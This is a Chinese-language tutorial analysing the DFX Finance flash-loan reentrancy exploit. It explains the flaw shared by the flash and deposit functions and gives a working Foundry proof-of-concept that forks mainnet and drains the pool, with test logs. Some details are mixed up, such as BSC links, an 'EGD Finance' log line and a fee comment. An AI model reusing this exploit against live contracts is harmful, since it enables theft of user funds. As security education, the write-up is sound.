



# DFXFinance 重入事件分析

在学习区块链安全时最先了解的便是重入攻击，为了进一步了解现实生活中重入如何发生的，我将跟随[教程](https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/academy/onchain_debug/06_write_your_own_poc)分析 DFXFinance 重入攻击事件，我会将分析思路详细地记录下来，同时使用 foundry 框架进行测试。
大家可以通过阅读我之前写的[Re-entrancy attack](https://lori-blockchain.notion.site/Re-entrancy-attack-e5c416cce9e54846938ff32e9ecd451c?pvs=4) 的文章来对重入攻击有个初步的了解。

# 跨函数重入

- 跨函数重入是指在不同的函数之间发生的重入攻击。这种攻击方式通常是通过在合约中调用其他合约的函数，从而实现重入。
- 这种攻击方式可以绕过合约中的安全检查，从而实现恶意操作。
- 为了防止跨函数重入攻击，合约开发者应该谨慎处理合约中的函数调用，避免在回调函数中调用其他合约的函数。同时，可以使用防止重入的库函数来提高合约的安全性。
  
# 攻击过程分析

## 基本信息

- 可参考的链接：[phalcon](https://phalcon.blocksec.com/tx/bsc/0x50da0b1b6e34bce59769157df769eb45fa11efc7d0e292900d6b0a86ae66a2b3)
- 攻击基本信息

  ```
  @KeyInfo - Total Lost : 3000 ETH or $ ~4M
  Attack Tx: https://etherscan.io/tx/0x6bfd9e286e37061ed279e4f139fbc03c8bd707a2cdd15f7260549052cbba79b7
  Attacker Address(EOA): 0x14c19962E4A899F29B3dD9FF52eBFb5e4cb9A067
  Attack Contract Address: 0x6cFa86a352339E766FF1cA119c8C40824f41F22D
  Vulnerable Address: 0x46161158b1947d9149e066d6d31af1283b2d377c
  Total Loss: 36,044,121156865234135946 BSC-USD

  @Analysis
  Blocksec : https://twitter.com/peckshield/status/1590831589004816384
  ```

- 文档中代币数量以 10\*\*18 为单位

## 攻击过程

我们利用[Phalcon](https://phalcon.blocksec.com/explorer/tx/eth/0x6bfd9e286e37061ed279e4f139fbc03c8bd707a2cdd15f7260549052cbba79b7)来分析攻击过程，Invocation Flow 的过程如下：

再结合 fund flow，

可以看到，攻击交易有 8 次资金流向，

- 攻击者首先通过 `dfx-xidr-v2.flash` 借出 XIDR 以及 USDC(fundflow1，2)，
- 然后通过 闪电贷 callback 实现调用 `dfx-xidr-v2.deposite`，将贷出的钱全部 deposite 进了 dfx-xidr-v2.deposite(fundflow3,4)，并获得了相应的质押凭证(fundflow 5)，
- 之后可以看见 dfx-xidr-v2 向 DFX Finance: Governance Multi Sig 转了两笔费用(fundflow 7.8),
- 最后攻击合约使用 `withdraw` 将 XIDR 和 USDC 提取。

我们并没有发现，在`dfx-xidr-v2.flash`整个过程中，除 deposite 外的 `tranfer` 操作，也就是说，攻击合约没有执行还款操作就通过 `dfx-xidr-v2.flash` 检查，漏洞是否存在 dfx-xidr-v2 合约呢？
再联想到，攻击者调用了`flash`后紧接着调用了`deposite`，我们可以有个小小的猜想，这两个函数是否共用了状态变量？
接下来，就让我们来看看 `dex-xidr-v2` 合约的实现，该合约已开源，在 [etherscan](https://etherscan.io/address/0x46161158b1947d9149e066d6d31af1283b2d377c#code) 上可以查看到合约的源码。

### flash

```
    function flash(
        address recipient,
        uint256 amount0,
        uint256 amount1,
        bytes calldata data
    ) external transactable noDelegateCall isNotEmergency {
        uint256 fee = curve.epsilon.mulu(1e18);

        require(IERC20(derivatives[0]).balanceOf(address(this)) > 0, 'Curve/token0-zero-liquidity-depth');
        require(IERC20(derivatives[1]).balanceOf(address(this)) > 0, 'Curve/token1-zero-liquidity-depth');

        uint256 fee0 = FullMath.mulDivRoundingUp(amount0, fee, 1e18);
        uint256 fee1 = FullMath.mulDivRoundingUp(amount1, fee, 1e18);
        uint256 balance0Before = IERC20(derivatives[0]).balanceOf(address(this));
        uint256 balance1Before = IERC20(derivatives[1]).balanceOf(address(this));

        if (amount0 > 0) IERC20(derivatives[0]).safeTransfer(recipient, amount0);                   // 1. 贷款发放
        if (amount1 > 0) IERC20(derivatives[1]).safeTransfer(recipient, amount1);

        IFlashCallback(msg.sender).flashCallback(fee0, fee1, data);                                 // 2. 调用汇款函数

        uint256 balance0After = IERC20(derivatives[0]).balanceOf(address(this));
        uint256 balance1After = IERC20(derivatives[1]).balanceOf(address(this));

        require(balance0Before.add(fee0) <= balance0After, 'Curve/insufficient-token0-returned');   // 3. 检查还款
        require(balance1Before.add(fee1) <= balance1After, 'Curve/insufficient-token1-returned');

        // sub is safe because we know balanceAfter is gt balanceBefore by at least fee
        uint256 paid0 = balance0After - balance0Before;
        uint256 paid1 = balance1After - balance1Before;

        IERC20(derivatives[0]).safeTransfer(owner, paid0);                                          // 4. 将 flash fee 转给 owner
        IERC20(derivatives[1]).safeTransfer(owner, paid1);

        emit Flash(msg.sender, recipient, amount0, amount1, paid0, paid1);
    }
```

`flash`函数类似于 UniswapV2 闪电贷，允许用户从合约借款，条件是接收者必须偿还贷款加上费用，未能还款则回滚。该函数接受以下参数：

1. `recipient`：接收者地址。
2. `amount0`：要贷款的第一种币的金额。
3. `amount1`：要贷款的第二种币的金额。
4. `data`：要传递给`flashCallback`函数的附加数据。

该函数执行以下操作：

1. 根据`curve.epsilon`值和 1e18 计算费用。
2. 检查合约是否拥有足够的流动性，以覆盖贷款和费用。
3. 将贷款的币转移到接收者地址。
4. 调用接收者合约中实现的`IFlashCallback`接口的`flashCallback`函数，传递费用金额和附加数据。
5. 计算接收者返回的币的数量，并检查它是否与预期的数量相匹配。
6. 将费用转移到合约所有者地址，
7. 发出一个`Flash`事件，包含相关信息。

- 根据 phalcon 可以看到，最后调用 `transfer` 转给 `DFX Finance: Governance Multi Sig` 两笔费用，和 `flash` 函数转手续费是一致，ok
- `flash`函数通过 `IERC20(derivatives[i]).balanceOf(address(this));` 获取当前合约借款代币的余额数量来检查是否拥有足够的数量，以覆盖贷款和费用。

### deposit
我们接着来看`dfx-xidr-v2.deposit` 函数，

```
    /// deposit
    function deposit(uint256 _deposit, uint256 _deadline)
        external
        deadline(_deadline)
        transactable
        nonReentrant
        noDelegateCall
        notInWhitelistingStage
        isNotEmergency
        returns (uint256, uint256[] memory)
    {
        // (curvesMinted_,  deposits_)
@>      return ProportionalLiquidity.proportionalDeposit(curve, _deposit);
    }
```

我们可以看到 `deposit`函数用于向曲线池中存入流动性。它有两个参数：\_deposit 和 \_deadline。\_deposit 参数是存入的流动性金额，\_deadline 参数是交易的截止日期。

- 函数首先检查交易是否在截止日期内且不是重入的。然后将 curves 和 deposit 数量传入`ProportionalLiquidity.proportionalDeposit`来计算每个资产的曲线 minted 和存款。

- `proportionalDeposit` 函数根据它们的权重计算每个资产的存款。

- 计算存款后，函数计算总 curves 代币数量并更新 curves 的总量。最后，将 curves minted 给 msg.sender。

合约调用了库函数来实现流动性计算，如果一个个看源码函数之间的调用是复杂的，我们结合 phalchon 一块看一下

我们可以看到，`deposit` 通过调用 `token.balanceOf(address(this))` 来计算提供流动性数量，将 USDC 和 XIDR 发回受害者合约，`token.balanceOf(address(this))`自动更新，
这和 flash 归还检查共用同一变量，攻击者 deposit 的代币数量刚好满足了 flash 归还检查的条件，这就是问题所在。

```
        /// function flash
        require(balance0Before.add(fee0) <= balance0After, 'Curve/insufficient-token0-returned');   // 3. 检查还款
        require(balance1Before.add(fee1) <= balance1After, 'Curve/insufficient-token1-returned');
```
同时，这也验证了攻击者为什么 deposit 大于借款数量，他将flash手续费算进去了，之后 withdraw 提取的代币数量 = 借款数量 + flash手续费，实现无损套利。

### viewDeposit
这时候考虑为什么攻击者通过闪电贷借款金额是那么精准，这时候看到攻击者实施攻击的时候先调用了`dfx-xidr-v2.viewDeposit(_deposit)`来获取 deposit 所需USDC和XIDR数量，从而来确定借款金额。

## 攻击过程回顾
结合以上分析，我们来回顾一下攻击过程：
1. 攻击者首先通过`dfx-xidr-v2.viewDeposit(200,000 ether)`来获取 deposit 所需USDC和XIDR数量；
2. 准备USDC和XIDR 的交易费数量；
3. 通过 `dfx-xidr-v2.flash` 借出 XIDR 以及 USDC；
4. 然后通过 闪电贷 callback 实现调用 `dfx-xidr-v2.deposite`，将贷出的钱 + 手续费 全部 deposite 进了 dfx-xidr-v2.deposite，并获得了相应的质押凭证；
5. 最后，使用 `withdraw` 将 XIDR 和 USDC 提取。
   
# PoC
## 攻击前准备
结合以上过程，我们去实现PoC，我们需要注意首先要先准备 deposit 所需USDC和XIDR数量，这一块怎么实现？
1. 使用 `deal(token,account,amount)`
   我一开始直接使用 `deal(token,account,amount)`给攻击合约充token，也能通过，结果如下
```
Running 1 test for PoC/DFXFinance.t.sol:DFXFinancePoC
[PASS] testExploit() (gas: 782853)
Logs:
  --------------------  Pre-work, stake 100 usdc to EGD Finance --------------------
  Tx: 0x6bfd9e286e37061ed279e4f139fbc03c8bd707a2cdd15f7260549052cbba79b7
  Attacker prepare flashFee
  -------------------------------- Start Exploit ----------------------------------
  Attacker deposit should xidr Balance 2325581395325581
  Attacker deposit should usdc Balance 100000000000
  -------------------------------- End Exploit ----------------------------------
  [End] Attacker usdc Balance: 100.000000099388527878
  [End] Attacker xidr Balance: 100.002271973497355614
```

2. 通过 ETH 兑换 USDC 和 XDIR
但是我看 DeFiHackLabs 是通过 eth 换成 weth，再通过 router 换成 USDC 和 XDIR ，的确这样更符合实际操作，好吧，我们先找 router 来交换，首先想到的就是uniswapV3，通过查找 xidr 地址发现uniswapV3上有 WETH/XIDR 的[池子](https://app.uniswap.org/explore/tokens/ethereum/0xebf2096e01455108badcbaf86ce30b6e5a72aa52)，那么我们选用UniswapV3Router地址来进行前期资金准备，也通过了
```
[PASS] testExploit() (gas: 718780)
Logs:
  ------------------------------- Pre-work -----------------------------
  Tx: 0x6bfd9e286e37061ed279e4f139fbc03c8bd707a2cdd15f7260549052cbba79b7
  Attacker prepare flashFee
  [Before] Attacker usdc balance before exploit: 956.253438
  [Before] Attacker xidr balance before exploit: 14905893.774030
  -------------------------------- Start Exploit ----------------------------------
  Attacker deposit should xidr Balance 2325581395325581
  Attacker deposit should usdc Balance 100000000000
  Attacker lpToken Balance: 387134878542173576823470.0
  -------------------------------- End Exploit ----------------------------------
  [End] Attacker usdc Balance: 100344.781316
  [End] Attacker xidr Balance: 2286879391.129644
```

## PoC
综上，复现此次攻击的 PoC 如下，
```
contract DFXFinancePoC is Test { // 模拟攻击
    uint256 lpToken;
    
    function setUp() public {
        vm.createSelectFork("mainnet", 15_941_703);

        vm.label(dfx, "DFX");
        vm.label(usdc, "usdc");
        vm.label(xidr, "xidr");
    }
       
    function testExploit() public {
        vm.warp(15_941_703); // block.timestamp = 2022-08-07 23:15:46(UTC)

        console.log("------------------------------- Pre-work -----------------------------");
        console.log("Tx: 0x6bfd9e286e37061ed279e4f139fbc03c8bd707a2cdd15f7260549052cbba79b7");

        console.log("Attacker prepare flashFee");

        // deal(usdc, address(this), 100 ether);
        // deal(xidr, address(this), 100 ether);

        (bool success, ) = WETH.call{value: 1.5 ether}("");

        IERC20(WETH).approve(address(UniV3Router), type(uint256).max);
        IERC20(usdc).approve(address(UniV3Router), type(uint256).max);
        IERC20(usdc).approve(address(dfxXidrV2), type(uint256).max);
        IERC20(xidr).approve(address(UniV3Router), type(uint256).max);
        IERC20(xidr).approve(address(dfxXidrV2), type(uint256).max);

        // WETH to usdc
        tokenToToken(WETH, usdc, IERC20(WETH).balanceOf(address(this)));

        // WETH to xidr
        tokenToToken(usdc, xidr, IERC20(usdc).balanceOf(address(this))/2);

        emit log_named_decimal_uint("[Before] Attacker usdc balance before exploit", IERC20(usdc).balanceOf(address(this)), 6);

        emit log_named_decimal_uint("[Before] Attacker xidr balance before exploit", IERC20(xidr).balanceOf(address(this)), 6);
        
        console.log("-------------------------------- Start Exploit ----------------------------------");

        // 根据palcon来跟踪信息
        uint256[] memory XIDR_USDC = new uint[](2);
        XIDR_USDC[0] = 0;
        XIDR_USDC[1] = 0;
        (, XIDR_USDC) = dfxXidrV2.viewDeposit(200_000 * 1e18);
        console.log("Attacker deposit should xidr Balance", XIDR_USDC[0]);
        console.log("Attacker deposit should usdc Balance", XIDR_USDC[1]);

        IERC20(xidr).approve(address(dfxXidrV2),type(uint256).max);
        IERC20(usdc).approve(address(dfxXidrV2),type(uint256).max);

        dfxXidrV2.flash(address(this), XIDR_USDC[0] * 995 / 1000, XIDR_USDC[1] * 995 / 1000, new bytes(1)); // 5% fee

        dfxXidrV2.withdraw(lpToken, block.timestamp + 60);

        console.log("-------------------------------- End Exploit ----------------------------------");
        emit log_named_decimal_uint("[End] Attacker usdc Balance", IERC20(usdc).balanceOf(address(this)), 6);
        emit log_named_decimal_uint("[End] Attacker xidr Balance", IERC20(xidr).balanceOf(address(this)), 6);
    }

    function flashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external {
        (lpToken,) = dfxXidrV2.deposit(200_000 * 1e18, block.timestamp + 60);

        emit log_named_decimal_uint("Attacker lpToken Balance", IERC20(dfx).balanceOf(address(this)), 0);
    }
}
```
